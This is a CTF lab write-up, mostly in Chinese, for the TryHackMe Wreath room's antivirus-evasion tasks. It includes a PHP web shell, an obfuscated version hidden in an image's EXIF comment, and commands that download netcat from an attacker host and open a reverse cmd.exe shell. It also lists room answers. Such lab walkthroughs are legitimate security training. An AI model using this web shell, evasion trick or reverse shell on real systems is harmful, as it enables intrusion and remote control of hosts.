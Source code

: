 # Task 40  AV Evasion PHP Payload Obfuscation

源代码：
```
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

去到[这个网站](https://www.gaijin.at/en/tools/php-obfuscator)混淆代码

得到
```
<?php $p0=$_GET[base64_decode('d3JlYXRo')];if(isset($p0)){echo base64_decode('PHByZT4=').shell_exec($p0).base64_decode('PC9wcmU+');}die();?>
```

对$符号进行转义
```
<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>
```


写入注释
```
┌──(root💀kali)-[~/tryhackme/Wreath]
└─# exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" test-max.jpeg.php                                            130 ⨯
    1 image files updated

```

> What is the Host Name of the target?

> WREATH-PC

> What is our current username (include the domain in this)?

> wreath-pc\thomas

# Task 41  AV Evasion Compiling Netcat & Reverse Shell!

> What output do you get when running the command: certutil.exe?

> CertUtil: -dump command completed successfully.


分别在web shell上执行命令
```
curl http://10.50.102.104:8000/nc64.exe -o c:\\windows\\temp\\nc-max.exe

powershell.exe c:\\windows\\temp\\nc-max.exe 10.50.102.104 443 -e cmd.exe
```
